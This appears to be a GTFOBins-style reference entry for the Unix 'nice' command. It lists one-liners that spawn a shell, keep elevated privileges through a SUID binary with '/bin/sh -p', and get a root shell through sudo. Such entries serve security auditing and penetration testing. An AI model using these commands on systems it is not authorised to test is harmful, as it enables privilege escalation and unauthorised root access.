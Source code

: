 functions:
  shell:
    - code: nice /bin/sh
  suid:
    - code: ./nice /bin/sh -p
  sudo:
    - code: sudo nice /bin/sh
---
